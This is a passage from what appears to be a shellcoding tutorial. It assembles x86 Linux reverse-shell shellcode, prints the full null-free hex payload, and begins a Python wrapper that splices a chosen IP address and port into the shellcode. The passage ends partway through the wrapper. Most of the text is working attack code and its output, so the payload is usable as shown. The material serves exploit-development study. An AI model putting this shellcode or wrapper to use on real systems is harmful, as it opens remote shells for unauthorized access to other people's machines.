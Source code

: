 ```
root@kali:~/Documents/revshell# ../misc/build.sh first_reverse_shell
Assembling first_reverse_shell.asm
Linking first_reverse_shell.o
Done
```

At this point, I tested and confirmed that the reverse shell worked before moving on to the python wrapper that allows custom IP addresses and port values to be used within the reverse shell.

We can then dump the hex from the assembled object, and check we don’t have any NULL bytes within the output. The contents of dump_hex.sh can be seen in the first post:

```
root@kali:~/Documents/revshell# ../misc/dump_hex.sh first_reverse_shell
"\\x31\\xc0\\x31\\xdb\\x31\\xc9\\x31\\xd2\\x66\\xb8\\x67\\x01\\xb3\\x02\\xb1\\x01\\xcd\\x80\\x89\\xc7\\x31\\xc0\\x66\\xb8\\x6a\\x01\\x89\\xfb\\x31\\xc9\\x51\\xc6\\x04\\x24\\x7f\\xc6\\x44\\x24\\x03\\x01\\x51\\x66\\x68\\x23\\x29\\x66\\x6a\\x02\\x89\\xe1\\x31\\xd2\\xb2\\x10\\xcd\\x80\\x31\\xc0\\xb0\\x3f\\x89\\xfb\\x31\\xc9\\xcd\\x80\\x31\\xc0\\xb0\\x3f\\x89\\xfb\\xb1\\x01\\xcd\\x80\\x31\\xc0\\xb0\\x3f\\x89\\xfb\\xb1\\x02\\xcd\\x80\\x31\\xc0\\x50\\x68\\x6e\\x2f\\x73\\x68\\x68\\x2f\\x2f\\x62\\x69\\x89\\xe3\\x50\\x89\\xe1\\x50\\x89\\xe2\\x31\\xc0\\xb0\\x0b\\xcd\\x80"
```

## Wrapper to allow custom IP address and Port number:
Similar to the python wrapper used with our bind shell, this wrapper allows the user to specify their own port number. This number is then converted into hex values and placed within the correct position of our shellcode string. As well as the custom port number, I added functionality for custom IP addresses to be placed into the shellcode itself. I achieved this by taking the required instructions and their op codes from the 'objdump -d’ output and created four separate chunks of these instructions.

```
fourth_ip_asm = "\\xc6\\x04\\x24\\x[4]"       # movb   $0x7f,(%esp)   (127)
third_ip_asm = "\\xc6\\x44\\x24\\x01\\x[3]"   # movb   $0x1,0x1(%esp) (1)
second_ip_asm = "\\xc6\\x44\\x24\\x02\\x[2]"  # movb   $0x1,0x2(%esp) (1)
first_ip_asm = "\\xc6\\x44\\x24\\x03\\x[1]"   # movb   $0x1,0x3(%esp) (1)
```

As we can see, each string contains a tag with an integer in there, i.e [1], [2]. These tags are later replaced by the chunk of the target IP address in the correct order and in their hex value. I think we can already see where this is going, but let's continue. Once each one of these chunks has been correctly filled, the final shellcode has the tags '[i4][i3][i2][i1]' replaced with their required instructions and our final payload is complete. This is then output to the screen, ready to place in our C based injection script.

The complete python wrapper with tags that are replaced by user input can be seen below:

```
root@kali:~/Documents/revshell# cat wrapper.py 
import sys
import socket

shellcode = (
    "\\x31\\xc0\\x31\\xdb\\x31\\xc9\\x31\\xd2\\x66\\xb8\\x67\\x01\\xb3"
    "\\x02\\xb1\\x01\\xcd\\x80\\x89\\xc7\\x31\\xc0\\x66\\xb8\\x6a\\x01"
    "\\x89\\xfb\\x31\\xc9\\x51[i4][i3][i2][i1]\\x51\\x66\\x68[p2][p1]"
    "\\x66\\x6a\\x02\\x89\\xe1\\x31\\xd2\\xb2\\x10\\xcd\\x80\\x31\\xc0"
    "\\xb0\\x3f\\x89\\xfb\\x31\\xc9\\xcd\\x80\\x31\\xc0\\xb0\\x3f\\x89"
    "\\xfb\\xb1\\x01\\xcd\\x80\\x31\\xc0\\xb0\\x3f\\x89\\xfb\\xb1\\x02"
    "\\xcd\\x80\\x31\\xc0\\x50\\x68\\x6e\\x2f\\x73\\x68\\x68\\x2f\\x2f"
    "\\x62\\x69\\x89\\xe3\\x50\\x89\\xe1\\x50\\x89\\xe2\\x31\\xc0\\xb0"
    "\\x0b\\xcd\\x80"
)

fourth_ip_asm = "\\xc6\\x04\\x24\\x[4]"         # movb   $0x7f,(%esp)   (127)
third_ip_asm = "\\xc6\\x44\\x24\\x01\\x[3]"     # movb   $0x1,0x1(%esp) (1)
second_ip_asm = "\\xc6\\x44\\x24\\x02\\x[2]"    # movb   $0x1,0x2(%esp) (1)
```